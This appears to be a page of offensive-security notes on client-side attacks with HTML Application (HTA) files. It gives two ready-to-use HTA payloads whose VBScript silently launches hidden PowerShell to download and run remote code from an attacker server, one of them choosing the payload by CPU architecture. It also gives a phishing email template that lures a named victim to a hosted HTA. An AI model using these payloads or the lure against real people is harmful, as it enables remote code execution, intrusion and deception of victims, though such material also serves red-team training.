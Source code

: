 ```yaml
---
title: HTML Application (HTA)
category: Client Side Attacks
order: 3
---
```


An HTML Application (HTA) is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (`VBScript` and `JScript`). The HTML is used to generate the user interface and the scripting language for the program logic. An HTA executes without the constraints of the browser's security model, so it executes as a "fully trusted" application.

An HTA file is executed using `mshta.exe`, which is typically installed along with Internet Explorer.

> **Note**: `mshta` is dependant on Internet Explorer, so if it has been uninstalled, HTAs will be unable to execute.

HTA files has the `.hta` extension.

# Executing x64 powershell payload

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Magic()
      Set shell = CreateObject("wscript.Shell")
      shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""
    End Function

    Magic
  </script>

</html>
```

# Checking the architecture and executing powershell payload

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
	Function Magic()
	  Set shell = CreateObject("wscript.Shell")

	  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""
	  Else
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/b'))"""
	  End If

	End Function

    Magic
  </script>

</html>
```

# Phishing

By default, Outlook has filetype filtering in order to prevent you from attaching certain files to emails.

![](/hackingnotes/images/hta-email.png)

Instead of attaching, we can just host the file on a server and send a link to the victim.

```html
<html>
<body>
	<p>Hi Miguel,</p>
	<p>Please fill this <a href="/staff">form</a> as soon as possible.</p>
	<p>Best regards,</p>
	
</body></html>
```
![](/hackingnotes/images/hta-link.png)